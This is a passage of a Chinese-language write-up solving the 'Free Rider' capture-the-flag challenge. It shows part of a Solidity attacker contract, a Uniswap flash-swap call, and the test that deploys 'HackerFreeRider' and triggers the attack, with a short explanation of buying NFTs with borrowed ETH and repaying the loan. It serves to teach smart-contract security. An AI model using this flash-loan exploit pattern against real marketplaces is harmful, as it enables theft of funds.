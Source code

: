 ```solidity

    receive() payable external {
        console.log("receiving ...");
        console.log(msg.value);
        console.log(address(this).balance);
    }

    function onERC721Received(address, address, uint256 _tokenId, bytes memory _data)
        external
        override
        returns (bytes4)
     {
        console.log("receving : ", _tokenId);
        return IERC721Receiver.onERC721Received.selector;
    }


}
```



在`attack`函数中，调用

```solidity
        pair.functionCall(
            abi.encodeWithSignature(
                "swap(uint256,uint256,address,bytes)",
                borrowAmount,
                0,
                address(this),
                "1"
                ));
```

通过`uniswapV2Call`接受回调，实现转为ETH，购买NFT，获取奖励，铸造WETH，归还闪电贷。同时记得要实现`onERC721Received`以接受NFT。

在`test/free-rider/free-rider.challenge.js`中，代码如下：

```javascript
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        hacker = await (await ethers.getContractFactory('HackerFreeRider', player)).deploy(
            uniswapPair.address,
            weth.address,
            marketplace.address,
            nft.address,
            devsContract.address
            );
        hacker.connect(player).attack();

    });
```

<hr />
